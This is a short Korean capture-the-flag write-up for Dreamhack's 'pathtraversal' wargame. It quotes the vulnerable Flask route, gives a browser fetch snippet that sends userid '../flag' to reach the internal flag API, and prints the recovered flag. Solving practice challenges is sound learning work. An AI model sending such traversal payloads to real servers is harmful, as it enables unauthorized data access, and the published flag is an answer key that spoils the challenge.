 ## pathtraversal
> 문제 URL: https://dreamhack.io/wargame/challenges/12  
> 사용자의 정보를 조회하는 API 서버입니다. Path Traversal 취약점을 이용해 /api/flag에 있는 플래그를 획득하세요!


### Solve
1. 화면에서 `../flag` 입력 시 `users` 딕셔너리 키 검색을 통해 확인하므로, `{}` 리턴함
```py
@app.route('/api/user/<uid>')
@internal_api
def get_flag(uid):
    try:
        info = users[uid]  # 여기서 uid는 'userid'로 전달되는 값입니다.
    except:
        info = {}
    return json.dumps(info)
```

2. Chrome 개발자모드를 이용해서, js fetch를 이용해 요청 전송
```js
let userid = '../flag';

// POST 요청 보내기
fetch('/get_info', {
    method: 'POST', // 요청 방식 (POST)
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded', // 요청 헤더 설정
    },
    body: new URLSearchParams({
        'userid': userid // 폼 데이터로 userid 전송
    })
})
.then(response => response.text())  // 서버의 응답을 텍스트로 처리
.then(data => {
    // 서버에서 받은 응답 처리 (예: 화면에 표시)
    console.log(data);
})
.catch(error => {
    // 에러 처리
    console.error('Error:', error);
});
```

3. 응답에서 flag 확인가능
```html
<h1>Get User Info</h1><br/>
  <pre>DH{8a33bb6fe0a37522bdc8adb65116b2d4}
</pre>
```